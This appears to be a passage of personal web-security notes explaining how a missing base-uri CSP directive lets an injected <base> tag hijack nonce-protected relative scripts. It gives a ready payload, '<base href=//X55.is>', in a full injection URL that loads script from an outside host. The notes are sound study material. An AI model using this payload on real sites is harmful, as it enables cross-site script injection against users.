 A [dangling markup injection](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FVulnerabilities%20%26%20Attacks%2FCross-Site%20Scripting%2FDangling%20Markup%20Injection%2FIntroduction) can be performed if the `base-uri` directive is absent in the defined CSP.

Moreover, if the page is loading a script using a relative path (i.e `<script src="/js/app.js" nonce="abcd-1234"/>`) and is using a `nonce`, attackers can abuse the `base` tag to make it load a script from a server that they control.

In order for this to work, the CSP tag or header must contain the following:
```html
<meta http-equiv="Content-Security-Policy" content="script src 'nonce-abcd1234'">
```
```http
HTTP/1.1 200 OK
...
Content-Security-Policy: script-src 'nonce-abcd1234';
```

An attacker can be used the following payload `<base href=//X55.is>` as follows:
```txt
http://target-website.com/?name=guest<base%20href=//X55.is>
```
>Note: If the vulnerable page is loaded with HTTPS, make sure to use HTTPS URL in the `base` tag.

Because of the payload `<base href=//X55.is>`, the script loading `/js/app.js` becomes `//x55.is/js/app.js`.
